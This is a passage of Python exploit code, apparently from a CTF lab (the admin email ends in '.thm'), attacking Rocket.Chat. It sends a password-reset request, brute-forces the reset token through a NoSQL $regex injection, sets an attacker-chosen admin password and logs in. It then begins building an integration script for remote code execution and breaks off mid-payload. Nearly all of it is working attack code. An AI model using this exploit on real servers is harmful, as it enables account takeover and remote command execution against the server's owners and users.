 ```python
	r = requests.post(url+"/api/v1/method.callAnon/sendForgotPasswordEmail", data = payload, headers = headers, verify = False, allow_redirects = False)
	print("[+] Password Reset Email Sent")


def resettoken(url):
	u = url+"/api/v1/method.callAnon/getPasswordPolicy"
	headers={'content-type': 'application/json'}
	token = ""

	num = list(range(0,10))
	string_ints = [str(int) for int in num]
	characters = list(string.ascii_uppercase + string.ascii_lowercase) + list('-')+list('_') + string_ints

	while len(token)!= 43:
		for c in characters:
			payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}' % (token + c)
			r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
			time.sleep(0.5)
			if 'Meteor.Error' not in r.text:
				token += c
				print(f"Got: {token}")

	print(f"[+] Got token : {token}")
	return token


def changingpassword(url,token):
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"P@$$w0rd!1234\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
	if "error" in r.text:
		exit("[-] Wrong token")
	print("[+] Password was changed !")

def rce(url,ip_address,port):
	# Authenticating
	sha256pass = hashlib.sha256(b'P@$$w0rd!1234').hexdigest()
	headers={'content-type': 'application/json'}
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"email\\":\\"'+"admin@rocket.thm"+'\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
	r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
	if "error" in r.text:
		exit("[-] Couldn't authenticate")
	data = json.loads(r.text)
	data =(data['message'])
	userid = data[32:49]
	token = data[60:103]
	print("[+] Succesfully authenticated as administrator")

	# Creating Integration
	payload = '{"enabled":true,"channel":"#general","username":"admin",'
	payload += '"name":"wow","alias":"","avatarUrl":"","emoji":"",'
	payload += '"scriptEnabled":true,"script":'
```